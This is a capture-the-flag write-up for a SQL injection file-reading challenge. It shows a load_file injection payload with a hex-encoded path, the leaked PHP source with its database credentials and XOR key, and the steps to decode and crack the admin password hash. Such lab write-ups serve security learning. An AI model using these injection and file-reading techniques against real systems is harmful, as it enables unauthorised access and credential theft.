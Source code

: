 # SQL injection - File reading - Medium

First, I use SQLmap to retrieve information quickly.

**Database:**

![image](https://user-images.githubusercontent.com/83667873/150838889-1b8c1f04-1c8a-4c72-b15d-bc2810911b00.png)

**Table:**

![image](https://user-images.githubusercontent.com/83667873/150838957-e5914ae0-e730-48b0-b767-4585f6c966f5.png)

**Column:**

![image](https://user-images.githubusercontent.com/83667873/150839028-f6021cff-24b6-4583-9648-1dd112193cf2.png)

**Password:**

![image](https://user-images.githubusercontent.com/83667873/150839080-9370dfb7-8c04-495a-9cf3-4e08a876922b.png)

I submit this value as admin's password, but "Authentication falied"

Pay attention to the title "File reading". Maybe We need to use sql injection to read file.

I will try to read file index.php

I will use load_file function to read file:

```
select 1,1,1,load_file(0x2F6368616C6C656E67652F7765622D736572766575722F636833312F696E6465782E706870)--
```
with `0x2F6368616C6C656E67652F7765622D736572766575722F636833312F696E6465782E706870` is hex encode of `/challenge/web-serveur/ch31/index.php` (path to index.php).

After submit, we can get content of file index.php:

```
<?php

define('SQL_HOST',      '/var/run/mysqld/mysqld3-web-serveur-ch31.sock');
define('SQL_DB',        'c_webserveur_31');
define('SQL_LOGIN',     'c_webserveur_31');
define('SQL_P',         'dOJLsrbyas3ZdrNqnhx');


function stringxor($o1, $o2) {
    $res = '';
    for($i=0;$i<strlen($o1);$i++)
        $res .= chr(ord($o1[$i]) ^ ord($o2[$i]));        
    return $res;
}

$key = "c92fcd618967933ac463feb85ba00d5a7ae52842";
 

$GLOBALS["___mysqli_ston"] = mysqli_connect('', SQL_LOGIN, SQL_P, "", 0, SQL_HOST) or exit('mysql connection error !');
mysqli_select_db($GLOBALS["___mysqli_ston"], SQL_DB) or die("Database selection error !");

if ( ! isset($_GET['action']) ) $_GET['action']="login";

if($_GET['action'] == "login"){
        print '<form METHOD="POST">
                <p><label style="display:inline-block;width:100px;">Login : </label><input type="text" name="username" /></p>
                <p><label style="display:inline-block;width:100px;">Password : </label><input type="password" name="password" /></p>
                <p><input value=submit type=submit /></p>
                </form>';

	if(isset($_POST['username'], $_POST['password']) && !empty($_POST['username']) && !empty($_POST['password']))
	{
		$user = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], strtolower($_POST['username']));
		$pass = sha1($_POST['password']);
		
		$result = mysqli_query($GLOBALS["___mysqli_ston"], "SELECT member_password FROM member WHERE member_login='".$user."'");
		if(mysqli_num_rows($result) == 1)
		{
			$data = mysqli_fetch_array($result);
			if($pass == stringxor($key, base64_decode($data['member_password']))){
                                // authentication success
                                print "<p>Authentication success !!</p>";
                                if ($user == "admin")
                                    print "<p>Yeah !!! You're admin ! Use this password to complete this challenge.</p>";
                                else 
                                    print "<p>But... you're not admin !</p>";
			}
			else{
                                // authentication failed
				print "<p>Authentication failed !</p>";
			}
		}
		else{
			print "<p>User not found !</p>";
		}
	}
}

if($_GET['action'] == "members"){
	if(isset($_GET['id']) && !empty($_GET['id']))
	{
                // secure ID variable
		$id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $_GET['id']);
		$result = mysqli_query($GLOBALS["___mysqli_ston"], "SELECT * FROM member WHERE member_id=$id") or die(mysqli_error($GLOBALS["___mysqli_ston"]));
		
		if(mysqli_num_rows($result) == 1)
		{
			$data = mysqli_fetch_array($result);
			print "ID : ".$data["member_id"]."<br />";
			print "Username : ".$data["member_login"]."<br />";
			print "Email : ".$data["member_email"]."<br />";	
		}
                else{
                        print "no result found";
                }
	}
	else{
		$result = mysqli_query($GLOBALS["___mysqli_ston"], "SELECT * FROM member");
		while ($row = mysqli_fetch_assoc($result)) {
			print "<p><a href=\"?action=members&id=".$row['member_id']."\">".$row['member_login']."</a></p>";
		}
	}
}

?>
```
Follow above code, admin's password will be encode by sha1 hash, and recieved value will xor with $key by stringxor function which is defined in index.php file.

First, find hashed password:

```
<?php
function stringxor($o1, $o2) {
    $res = '';
    for($i=0;$i<strlen($o1);$i++)
        $res .= chr(ord($o1[$i]) ^ ord($o2[$i]));        
    return $res;
}
echo stringxor('c92fcd618967933ac463feb85ba00d5a7ae52842',base64_decode('VA5QA1cCVQgPXwEAXwZVVVsHBgtfUVBaV1QEAwIFVAJWAwBRC1tRVA==')); 
?>
```

The output value is `77be4fc97f77f5f48308942bb6e32aacabed9cef`

Use this link to find admin's password:

https://md5decrypt.net/en/Sha1/

![image](https://user-images.githubusercontent.com/83667873/150841638-3ccabe73-af55-495c-802d-ba0e7859b378.png)


Value found: `superpassword`

Submit this value and solve the challenge.
